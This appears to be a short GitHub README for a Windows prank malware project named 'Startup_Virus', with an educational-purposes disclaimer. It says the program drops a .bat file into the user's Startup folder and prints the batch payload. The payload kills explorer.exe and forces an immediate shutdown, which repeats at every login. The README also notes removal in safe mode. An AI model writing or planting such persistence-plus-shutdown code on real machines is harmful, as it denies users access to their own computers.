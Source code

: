# Startup_Virus

**Everything was done purely for educational purposes. The spread of viruses is bad! and illegal!**


Simple virus. It is creating .bat file in %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

You can easily edit it. By default, the file contains the following code:       `
   system %0 %0 
   taskkill /F /IM explorer.exe
   shutdown /s /t 1
`.

Then it will shutdown ur computer.


You can defeat this virus by deleting the .bat file in your Startup folder in safe mod.

